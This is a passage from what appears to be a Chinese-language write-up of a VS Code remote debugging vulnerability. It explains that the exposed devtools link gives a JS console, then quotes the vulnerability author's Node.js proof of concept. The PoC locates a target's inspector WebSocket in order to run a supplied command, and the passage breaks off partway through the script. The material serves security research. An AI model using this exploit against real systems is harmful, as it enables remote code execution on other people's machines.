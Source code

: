 

在chrome中直接打开这里`devtoolsFrontendUrl`指向的链接，就可以得到一个调试终端，可以在里面执行js指令。

![image-20191105125403677](/img/vscode-local-execute/image-20191105125403677.png)

漏洞作者给出的poc如下：

```js
//poc.js
const fetch = require('node-fetch')
const WebSocket = require('ws')

function die (reason) {
  console.error(reason)
  process.exit(-1)
}

if (process.argv.length !== 5) {
  die('usage: node index.js <IP> <PORT> <COMMAND>')
}

const IP = process.argv[2]
const PORT = process.argv[3]
const COMMAND = process.argv[4]
const COMMAND_B64 = base64(COMMAND)

function base64 (data) {
  return Buffer.from(data).toString('base64')
}

async function getWsLink () {
  const res = await fetch(`http://${IP}:${PORT}/json`)
  const data = await res.json()
  return data[0].webSocketDebuggerUrl
}

async function main () {
  console.log(`[?] Getting webSocketDebuggerUrl from http://${IP}:${PORT}/json`)
  const wsLink = await getWsLink().catch(die)
  console.log(`[!] Found webSocketDebuggerUrl: ${wsLink}`)
  const socket = new WebSocket(wsLink)

  socket.onopen = async (event) => {
    console.log(`[?] Connection established to ${wsLink}`)
```